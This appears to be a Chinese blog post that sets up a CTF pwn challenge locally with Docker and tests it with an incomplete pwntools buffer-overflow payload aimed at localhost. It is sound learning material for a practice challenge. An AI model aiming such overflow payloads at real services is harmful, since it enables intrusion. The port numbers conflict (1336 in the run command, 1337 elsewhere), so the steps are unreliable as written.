


第一次在CTF比赛中尝试解PWN题，先把PWN题的环境放上来，本次虚拟机环境情况为 Ubuntu 18.04 LTS，使用docker配置环境，后续会把整个题解出来

<!--more-->
## CTF环境Docker复现

本次复现使用 Docker 复现，保证环境可以正常运行，环境Docker原始文件下载：[ciscn-q12](ciscn-center-zone-q12/ciscn-12-docker.zip)

###  步骤1：安装Docker

本次虚拟机环境情况为 Ubuntu 18.04 LTS，安装docker和docker-compose

```bash
sudo apt-get install docker docker-compose
```



###  步骤2：运行Docker服务

```bash
sudo service docker start
```


## 步骤3：构建Docker环境

我们下载好Docker的环境：[ciscn-q12](ciscn-center-zone-q12/ciscn-12-docker.zip) 然后解压到环境根目录，打开终端，运行命令：

```bash
sudo docker build -t pwn12 .
```



## 步骤4：运行Docker环境

构建完成docker镜像后，运行环境，使用`docker ps`查看运行情况

```bash
sudo docker run -d -p 1336:1336 pwn12
sudo docker ps
```


从上图可以看到，我们的docker已经在监听 1337 号端口了。

## 步骤5：运行不完全的Payload

在比赛的时候我写了一个不完整的payload,只能加载部分的flag,为了验证环境是否安装完成，测试下

```python
from pwn import *
sh = remote('127.0.0.1',1337)
target = 0x61616161
sh.sendline('A'*(0X1C+8)+p32(target))
sh.interactive()
```


从图可以看到我们读取了部分Flag

> 根据出题人的意思，应该到这步就可以了的，但是由于未考虑到环境的FLAG长度，所以使本题目由签到题变成了入门题
